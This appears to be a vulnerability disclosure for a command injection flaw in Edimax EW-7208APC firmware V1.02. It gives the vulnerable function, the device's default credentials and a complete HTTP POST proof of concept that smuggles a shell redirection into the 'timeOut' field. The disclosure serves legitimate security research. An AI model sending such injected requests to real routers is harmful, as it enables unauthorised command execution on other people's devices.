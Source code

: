 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'timeOut'` parameter in the 'formConnectionSetting' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formConnectionSetting' is below:
![vulner_code.png](./img/vulner_code.png)
- ​**websGetVar** retrieves POST parameters 'timeOut'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formConnectionSetting HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 36
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1  
  
max_Conn=1;&timeOut=timeOut>/poc.txt;
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)